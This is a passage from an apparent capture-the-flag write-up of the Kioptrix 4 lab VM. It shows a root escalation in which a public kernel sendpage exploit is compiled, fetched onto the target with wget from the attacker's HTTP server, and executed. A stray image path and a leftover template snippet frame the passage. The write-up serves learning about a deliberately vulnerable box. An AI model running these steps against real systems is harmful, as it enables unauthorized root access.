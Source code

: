 So it's an x86 linux won version 2.6.24, I wonder if there's an exploit around (It's old so probably).  In the end, after trying a few, [this sendpage exploit](https://www.exploit-db.com/exploits/9545/) ended up working.

```bash
root@kali:~# sudo apt-get install libc6-dev-i386
kali:~# cp /usr/share/exploitdb/platforms/linux/local/9545.c .
root@kali:~# gcc 9545.c -o newexp -m32
root@kali:~#
```

I then opened up a python server on the directory and wget'd it to the tmp directory.

```bash
robert@Kioptrix4:/tmp$ wget 192.168.137.131:8000/newexp
--16:45:35--  http://192.168.137.131:8000/newexp
           => `newexp'
Connecting to 192.168.137.131:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7,944 (7.8K) [application/octet-stream]

100%[=======================================================================================================================================================================>] 7,944         --.--K/s             

16:45:35 (1.05 GB/s) - `newexp' saved [7944/7944]

robert@Kioptrix4:/tmp$ ls
exp_12  exp2  newexp
robert@Kioptrix4:/tmp$ chmod 777 newexp
robert@Kioptrix4:/tmp$ ./newexp
# id
uid=0(root) gid=0(root) groups=1002(robert)
```
Yay, we got root!

```bash
# cat congrats.txt
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret
```

This was an absolutely fantastic box and I feel like I learnt a tonne going through it.  Now on to Kioptrix 5.

{%highlight python%}
import flask
print "Hello World"
{%endhighlight%}
